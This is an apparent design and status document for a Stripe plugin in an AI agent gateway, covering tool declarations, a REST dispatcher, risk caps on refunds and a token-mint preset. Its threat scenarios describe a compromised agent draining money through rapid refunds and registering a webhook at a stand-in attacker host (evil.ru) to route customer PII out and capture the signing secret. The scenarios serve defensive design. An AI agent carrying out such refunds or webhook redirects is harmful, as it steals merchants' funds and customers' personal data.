---

## 7. Runtime — adapter, execute, tools, gateway wiring

### 7.1 `tools.ts` — 25 `McpToolDeclaration` entries

`plugins/stripe/src/tools.ts` declares 10 read tools and 15
write tools, each prefixed `stripe__`. The `inputSchema` properties are
aligned with the Stripe REST v1 parameters. Exports `availableTools`
(the full array) and `WRITE_TOOL_NAMES` (a `Set<string>` of the 15
write tool names).

### 7.2 `execute.ts` — REST dispatcher

`plugins/stripe/src/execute.ts` routes each tool call to the
correct Stripe REST endpoint via a `switch` statement. Key details :

- **Auth** : `Authorization: Bearer <token>` on every request.
- **Content-Type** : Stripe requires `application/x-www-form-urlencoded`
  for POST and DELETE bodies (NOT JSON). The `toFormBody()` helper
  flattens nested objects using Stripe's bracket notation
  (`items[0][price]=...`, `metadata[key]=...`). GET requests use
  `toQueryString()` for query parameters.
- **Path params** : tools with an `:id` path segment (e.g.
  `stripe__update_product`) destructure `id` from args, place it in the
  URL, and forward the rest as form body.
- **Signature** : `executeCall(fetchImpl, token, tool, args)` — no
  `databaseId` or `teamId` scoping (Stripe scoping = the API key
  itself).

### 7.3 `stripe-adapter.ts` — paste-token adapter

`plugins/stripe/src/stripe-adapter.ts` follows the
`UpstashRedisAdapter` pattern :

- `provider = 'stripe' as const`
- `mintUpstreamToken(admin)` : decodes `access_token_encrypted` bytes to
  a plain string (the Stripe API key). Stripe keys do not expire — uses
  a far-future date.
- `validateBinding(admin, resourceRef)` : calls `GET /v1/account` with
  the token to verify the key is valid. Returns the
  `business_profile.name` or account `id` as `displayName`.
- `executeCall(admin, binding, tool, args)` : decodes the token, calls
  `executeCall` from `execute.ts`.
- `classifyV4(tool, args, bindings)` : delegates to `classifyStripeV4`
  from `risk-classifier.ts`.

### 7.4 Gateway wiring

Three files updated for gateway integration :

- **`packages/gateway-core/src/gateway.ts`** —
  `providerFor()` gains the `stripe__` prefix check. `listTools()` now
  iterates `stripe` in its provider loop. Error message includes
  `stripe__` in the supported-provider hint.
- **`apps/gateway/src/lib/gateway/build.ts`** —
  imports `StripeAdapter` + `stripeAvailableTools`, instantiates the
  adapter, and registers `upstreamByProvider.stripe`. Adds `'stripe'` to
  the `catalogByProvider` loader loop. No OAuth, no `teamId` — paste-
  token mode like Upstash Redis.
- **`apps/gateway/src/components/providers/provider-info.ts`** —
  `tools: []` placeholder replaced with `tools: stripeAvailableTools`.

---

## 8. Reste à faire

Items 1 (adapter) and 2 (tools.ts) from the original modelling pass are
complete. Remaining chantiers :

1. ~~**Adapter Stripe**~~ — done (`stripe-adapter.ts`).

2. ~~**tools.ts**~~ — done (25 `McpToolDeclaration` entries).

3. **Web UI binding form** —
   `apps/gateway/src/app/(app)/orgs/[slug]/projects/[project]/bindings/new/binding-form.tsx`
   gagne un sous-formulaire Stripe-specific avec :
   - Input clé API restricted (texte masqué, validation regex
     `^sk_(test|live)_[A-Za-z0-9_]{20,}$`).
   - Auto-détection du mode depuis le prefix `sk_test_` / `sk_live_` →
     pré-rempli `environment` field, read-only.
   - Auto-fetch du `acct_*` via `GET /v1/account` à la validation pour
     pré-remplir `resource_ref`.

4. **Web UI token mint** —
   `apps/gateway/src/app/(app)/orgs/[slug]/projects/[project]/tokens/new/`
   gagne la prise en compte du provider `stripe`. Cap UI : pour le
   risk capé (`refund-create`), afficher les caps effectifs (3/min,
   20/session) + leur source (catalog). `refund-create` décoché par
   défaut au preset standard.

5. **Migration DB** — pas de migration spécifique nécessaire au MVP :
   la colonne `provider_bindings.environment` existe déjà et accepte
   n'importe quel string. La colonne `provider_credentials` accepte la
   clé chiffrée. Phase 2 : éventuellement une CHECK constraint sur le
   format de l'environment pour stripe (`IN ('live', 'test')`).

6. **`stripe__confirm_payment_intent` Phase 2** — ADR dédié si Vaubaan
   veut ouvrir le confirm. Risk dédié au catalog
   (`stripe.payment-intent-confirm`, `cost: unbounded`, `reversibility:
irreversible`).

7. **`amount_per_call_max` Phase 2** — ADR spec + extension `ScopeCaps`
   shared. Permettrait de cap "refund max 100 € par call" — borne le
   blast d'un agent compromis indépendamment du nombre d'appels.

---

## 9. Synthèse — ce qui distingue Stripe des autres providers

| Aspect                    | Pattern Stripe                                                                             | Pattern autres providers                                                  |
| ------------------------- | ------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------- |
| Axe de zonage             | **Mode** (test/live, porté par la clé API).                                                | Vercel : env (prod/preview/dev). Supabase : project_ref.                  |
| Densité du data-model     | ~20 entités sur 1 plane (catalogue + customers + subs + invoices + payments + monitoring). | Vercel : ~13 sur 1 plane. Gmail : ~11 sur 1 plane.                        |
| Entités synthétiques      | `customer.pii` (overlay PII), `webhook-endpoint.secret` (credential return-on-create).     | Vercel : `bypass-token`. Gmail : 4 (`from-zone`, `to-zone`, etc.).        |
| Caps cardinaux            | `refund-create` (1 item, 3/min, 20/session + infra 30/min hard). Seul risk capé.           | Gmail : 2 risks (`bulk-read`, `read-from-zone-unknown`). Vercel : aucun.  |
| Réversibilité             | **3 irreversible** : `refund-create`, `subscription-cancel`, `invoice-void`.               | Vercel : `costly` cardinaux (deploy-prod, env-var-write). Gmail : aucun.  |
| `cost: unbounded`         | **Oui sur `refund-create`** (sortie d'argent borneable seulement par le solde merchant).   | Aucun autre provider — Stripe est le premier à toucher du cash réel.      |
| Calque environnement      | `mode` entité explicite, qualifie `stripe[live].*` vs `stripe[test].*`.                    | Vercel : env entité. Supabase : project. Cohérent.                        |
| Send/destructive ouvert ? | `cancel_subscription`, `void_invoice`, `create_refund` ouverts (avec caps stricts).        | Gmail : send NON au MVP (mirror Google). Stripe : OUI (use-case central). |
| OWASP LLM01 explicite     | Indirect : agent compromis qui peut `refund-create` exfiltre l'argent.                     | Gmail : `from-zone[unknown]` direct (prompt injection in body).           |
| Credential model          | API key restricted paste-by-user (pas OAuth). Mode pin par prefix `sk_test_` / `sk_live_`. | Vercel : OAuth marketplace. Gmail : OAuth + scopes Google.                |

---

## Annexe A — Preset "Billing Operator Agent" (UX cible)

```
─── Token mint — Stripe (Billing Operator) ──────────────────────────────

Binding : ☑ stripe(account=acct_xxx, env=live)

Reads :
  ☑ stripe.read-catalog                          lire products/prices/coupons
  ☑ stripe.read-billing-history                  lire subs/invoices/charges
  ☑ stripe.read-balance                          monitoring cash position
  ☐ stripe.read-customer-pii          ⚠️         lire email/name/address

Catalog :
  ☑ stripe.catalog-write                         create/update products/prices/coupons

Subscriptions :
  ☑ stripe[live].subscription-create             créer subs (incl. first charge)
  ☑ stripe[live].subscription-update             update plan/quantity/pause
  ☐ stripe[live].subscription-cancel   ⚠️        cancel (irreversible)

Invoices :
  ☑ stripe.invoice-create-draft                  draft invoices (no email)
  ☐ stripe[live].invoice-finalize      ⚠️        finalize (sends email)
  ☐ stripe[live].invoice-void          ⚠️        void (irreversible)

Refunds (⚠️ real money out) :
  ☐ stripe[live].refund-create         🛑        refund (cost: unbounded, caps strict)

Webhooks :
  ☐ stripe.webhook-endpoint-write      ⚠️        manage webhook config
  ☐ stripe.mint-webhook-secret         ⚠️        mint new whsec_

[ Preview risks ]   [ Mint token ]
```

## Annexe B — Scénarios incarnés

### B.1 Happy path : "Onboard a new SaaS customer"

L'agent reçoit un token avec : `read-catalog`, `read-billing-history`,
`read-customer-pii`, `stripe[live].subscription-create`,
`invoice-create-draft`.

- `stripe__list_prices(product=prod_pro_plan)` → slice émise
  `product[prod_pro_plan].price[*].R` → matche `read-catalog` → **OK**.
- `stripe__create_subscription(customer=cus_X, items=[{price=p_pro}])` →
  slices émises : `customer[cus_X].subscription.W` + `payment-intent.W`
  (worst-case proration immédiate) → matche `subscription-create` +
  fallback PI.W → **OK** (les deux risks couverts).
- L'agent veut envoyer un récap au customer :
  `stripe__create_invoice(customer=cus_X)` draft → slice émise
  `customer[cus_X].invoice.W` → matche `invoice-create-draft` → **OK**.
- L'agent ne **peut pas** `stripe__finalize_invoice(...)` (risk
  `invoice-finalize` non accepté) → 403 risk-not-accepted → agent rend
  la main au humain qui finalize via dashboard.

**Ce que montre B.1** : un agent peut faire 80% du flow onboarding sans
toucher aux actions cardinales (finalize, refund, cancel). Le humain
garde le contrôle des "points de non-retour".

### B.2 Tentative d'exfiltration via refund

L'agent compromis a reçu un token avec `stripe[live].refund-create`
accepté (mauvaise décision du manager — preset trop large).

Première salve : 5 refunds rapides vers des cards qu'il contrôle.

- Call 1 : `create_refund(charge=ch_1, amount=10000)` → cap 1 item OK →
  Stripe processe → **OK**.
- Call 2 : idem → **OK**.
- Call 3 : idem → **OK**.
- Call 4 : `429 cap-exceeded` (`calls_per_minute_max: 3` au catalog) →
  bloqué ~20s.

Après 7 min, l'agent a fait 20 refunds → atteint
`calls_per_session_max: 20` → **403** persistant → besoin de re-mint
(qui requiert intervention humaine).

Le manager voit dans l'audit log 20 refunds rapides + 1 demande de
re-mint → révoque le token, contacte Stripe pour reverse les refunds
si possible (en pratique : impossible si déjà settled).

**Ce que montre B.2** :

1. Les caps **limitent** le blast d'un agent compromis sans empêcher
   le cas légitime ponctuel (refund manuel suite à incident).
2. Le profil de risque `stripe[live].refund-create` coché à la légère
   reste un risque. La défense en profondeur (caps + audit +
   révocation manuelle) atténue mais ne supprime pas.
3. La question §4.8 (`amount_per_call_max`) prendrait tout son sens
   ici : 20 refunds × 10 000 € = 200 000 € de fuite, vs 20 × 100 €
   (cap) = 2 000 €.

### B.3 Webhook endpoint forgé (vecteur exfiltration data)

L'agent compromis veut configurer un webhook qui route les
`customer.created` events (avec PII) vers son serveur.

- `create_webhook_endpoint(url=https://evil.ru/hook,
enabled_events=['*'])` → slices émises : `webhook-endpoint.W` +
  `webhook-endpoint[*].secret.W` → matche `webhook-endpoint-write` +
  `mint-webhook-secret`.
- Si le token accepte les deux : **OK**, endpoint créé, secret minté.
  L'agent récupère le `whsec_*` retourné dans la réponse et peut
  l'utiliser pour signer ses propres replays vers Stripe, ou réutiliser
  le secret pour valider des payloads forgés vers d'autres systèmes.

**Défense** : les deux risks doivent rester décochés par défaut au preset
standard. Un manager qui accepte ces risks doit avoir une raison
opérationnelle (setup initial intégration). Le label "Mint a new webhook
signing secret" est explicite — pas d'ambiguïté.

---

## Statut

**Modélisation (Phases B/C/D/E) + Runtime terminés 2026-06-19.**

Toutes les 10 questions cardinales du research Phase A ont été tranchées
(Q1-Q10). Le code matérialise les décisions :

- `plugins/stripe/src/data-model.ts` — 1 plane, 21 entités
  (19 Stripe-natives + 2 synthétiques `customer.pii` et
  `webhook-endpoint.secret`).
- `plugins/stripe/src/risk-catalog.yaml` + `.ts` — 15 risks
  (14 nommés + 1 fallback), 1 entrée avec `caps` + `infra_limits`
  (`refund-create`).
- `plugins/stripe/src/risk-classifier.ts` — 25 tools
  classifiés (10 reads + 15 writes), mode propagation depuis le binding.
- `plugins/stripe/src/tools.ts` — 25 `McpToolDeclaration`
  entries (10 reads + 15 writes) with input schemas.
- `plugins/stripe/src/execute.ts` — REST dispatcher, routes
  each tool to `api.stripe.com/v1/`, `application/x-www-form-urlencoded`
  for POST/DELETE, query params for GET.
- `plugins/stripe/src/stripe-adapter.ts` — paste-token
  adapter, validates via `GET /v1/account`, delegates classify to
  `classifyStripeV4`.
- Gateway wired : `gateway.ts` routing, `build.ts` instantiation,
  `provider-info.ts` tools populated.
- Tests : 6 fichiers, 150 tests passants au total.

Les 5 chantiers restants sont documentés au §8 (UI binding form, UI
token mint, migration DB optionnelle, Phase 2 confirm, Phase 2
amount_per_call_max).
